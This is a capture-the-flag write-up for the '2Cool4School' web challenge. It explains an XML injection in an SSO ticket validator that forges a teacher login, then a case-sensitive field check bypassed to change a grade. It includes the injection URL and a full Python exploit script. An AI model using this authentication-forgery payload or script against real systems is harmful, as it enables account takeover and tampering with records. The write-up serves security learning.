



# 2Cool4School

## Challenge

> I just started at uni, but can't be bothered to show up. For some reason my Cyber Sec grade is F. Please help me get an A!

> Clarification: You have to change your own grade. Changing the grade gives you the flag when viewing your grades

## Walkthrough

We had a number of people working on this challenge. I didn't find this all on my own! Thanks Angus, Ming, and Vie.

---


We were given a single URL and as such I knew it would be sourceless web 🥲.

Visiting it brought us to a react web application that was meant for students to view their grade and teachers to add comments. Following the login button on the top brought us to an SSO login page.



Looking at the SSO source we noticed that there was a comment noting that the system was using swagger:

```html
<!-- TODO: Update swagger to latest script version-->
```

As such Angus checked out `/swagger.json` and sure enough, it returned the API docs. Notably, it included information about `/register` and `/validate`.

Using our newfound knowledge of the API, we registered and acquiring a student account which allowed us to log into the web application.



In the meantime, I had unminified and analyzed the JS and found the following endpoints:

```js
fetch("/flag");

fetch("/logout", { method: "POST" });

fetch("/whine", { method: "post" });

fetch("/api/profile");
fetch("/api/profile" + (t ? "/" + t : ""));

fetch("/api/profile/isNew");
fetch("/api/profile/role");

fetch("/api/profile", { method: "PUT", headers: { "Content-Type": "application/json" }, body: JSON.stringify({ name: t }) });
fetch("/api/profile", { method: "PUT", headers: { "Content-Type": "application/json" }, body: JSON.stringify({ picture: n }) });

fetch("/api/profile/new", { method: "post", headers: { "Content-Type": "application/json" }, body: JSON.stringify({ name: t, picture: r }) });

fetch("/api/grades" + (t ? "/" + t : ""));
fetch("/api/grades/" + t, { method: "PUT", headers: { "Content-Type": "application/json" }, body: JSON.stringify({ name: n, values: { notes: r } }) });
```

Looking at these endpoints we figured that the goal would be to `PUT` to `/api/grades` and update the cybersecurity course to an `A`. However, we'd have to be a teacher to be able to access that endpoint.

We spent a lot of time wrestling with the application before Angus found a XML injection vulnerability in the SSO.

In essence, upon successfully authenticating with the SSO you are generated a unique token that is stored in a database.
You are then redirected to `http://grade.chal-kalmarc.tf/login?ticket=<TOKEN>`, which takes your token and fetches `http://sso.chal-kalmarc.tf/validate?ticket=<TOKEN>`. The SSO checks if that ticket is a successful login ticket and returns the user information associated with it. The grade service then sets your cookie for that user.

* `://sso/login` success
* `sso` sets token in database
* redirects to `://grade/login?token=<token>`
* `grade` fetches `://sso/validate` and sets cookie if successful.

Successful response from `/validate`:

```xml
<response>
    <authenticationSuccess><id>(user uuid)</id><username>student(int)</username></authenticationSuccess>
</response>
```

Failure response from `/validate`:

```xml
<response>
    <authenticationFailure>Failed for (token)</authenticationFailure>
</response>
```

Due to the fact that fetching `http://sso.chal-kalmarc.tf/validate?ticket=token` would reflect the token back into the response, setting a token as the auth success XML would trick the grade service into signing you in for a user.

For example, fetching `http://grade.chal-kalmarc.tf/login?ticket=TGT-</authenticationFailure><authenticationSuccess><id>dcfb2fd7-312e-48cf-81c0-ae7eb31ef864</id><username>teacher13095</username></authenticationSuccess></response>&service=test` would log you in as a teacher since the grade service would receive the following from the `/validate` endpoint:

```xml
<response>
    <authenticationFailure>Failed for TGT-</authenticationFailure>
        <authenticationSuccess>
            <id>dcfb2fd7-312e-48cf-81c0-ae7eb31ef864</id>
            <username>teacher13095</username>
        </authenticationSuccess>
        </response>
</response>
```

Now that we were logged in as a teacher, we just had to figure out how to use the `/api/grades` endpoint to set the grade. I reversed the javascript and found the parameters required. 

```js
function Il(e, t, n) {
    return Dl.apply(this, arguments);
}
function Dl() {
    return (Dl = l(
        a().mark(function e(t, n, r) {
            return a().wrap(function (e) {
                for (;;)
                    switch ((e.prev = e.next)) {
                        case 0:
                            return (e.next = 2), fetch("/api/grades/" + t, { method: "PUT", headers: { "Content-Type": "application/json" }, body: JSON.stringify({ name: n, values: { notes: r } }) });
                        case 2:
                        case "end":
                            return e.stop();
                    }
            }, e);
        })
    )).apply(this, arguments);
}
// ...
{
    return (e.next = 2), Il(r.props.params.id, r.state.editModal.name, r.state.editModal.comment); // .id = student uuid
}
```

```py
r = teacher.put(f'http://grade.chal-kalmarc.tf/api/grades/{studentID}', json={
    'name': 'Fundamentals of Cyber Security',
    'values': {
        'notes': 'gg',
        'grade': 'A' # try set grade
    },
})
```

Unfortunately, this didn't work as the service returned `grade is not allowed`. I began to play with the SQL and analyze it's errors.

```json
{"name":"SqlError","text":"Unknown column '__proto__' in 'field list'","sql":"UPDATE grades SET `notes` = ?, `__proto__` = ? WHERE student = ? and course = (select id from courses where name = ?) - parameters:['hi',{\"grade\":\"A\"},'4154b3ea-bb23-11ed-b345-0242c0a88002','Algebra']","fatal":false,"errno":1054,"sqlState":"42S22","code":"ER_BAD_FIELD_ERROR"}
```

However, Angus cheese it by using `Grade` instead of `grade`, guess the validation was case sensitive lol.

## Solve

```py
import httpx
import base64
import json

student = httpx.Client()
teacher = httpx.Client()

r = student.post(f'http://sso.chal-kalmarc.tf/register', json={
    'username': 'doesnt matter',
    'password': 'doesnt matter',
})
user = r.json()['username']
passwd = r.json()['password']
print(f'[{r.status_code}]', user, passwd)

r = student.post('http://sso.chal-kalmarc.tf/login?service=http://grade.chal-kalmarc.tf/login', data={
    'username': user,
    'password': passwd,
})
print(f'[{r.status_code}]: {r.url} {r.text}')

r = student.get(r.headers['Location'])
print(f'[{r.status_code}]: {r.url} {r.text}')

r = student.get('http://grade.chal-kalmarc.tf/api/profile/isnew')
print(f'[{r.status_code}]: {r.text}')

if r.json() == True:
    r = student.post(f'http://grade.chal-kalmarc.tf/api/profile/new', json={
        'name': 'test',
        'picture': 'test'
    })
    print(f'[{r.status_code}]: {r.text}')

r = teacher.get('http://grade.chal-kalmarc.tf/login?ticket=TGT-</authenticationFailure><authenticationSuccess><id>dcfb2fd7-312e-48cf-81c0-ae7eb31ef864</id><username>teacher13095</username></authenticationSuccess></response>&service=test')
print(f'[{r.status_code}]: {r.text}')

studentID = json.loads(base64.b64decode(student.cookies.get('grade-session')))['user']['id']
print(studentID)

r = teacher.put(f'http://grade.chal-kalmarc.tf/api/grades/{studentID}', json={
    'name': 'Fundamentals of Cyber Security',
    'values': {
        'notes': 'gg',
        'Grade': 'A'
    },
})
print(f'[{r.status_code}]: {r.text}')

r = student.post('http://grade.chal-kalmarc.tf/whine')
print(f'whine [{r.status_code}]: {r.text}')

r = student.get('http://grade.chal-kalmarc.tf/flag')
print(f'[{r.status_code}]: {r.text}')

# kalmar{w00000w_n0_m0re_sch00l_d9a821a}
```


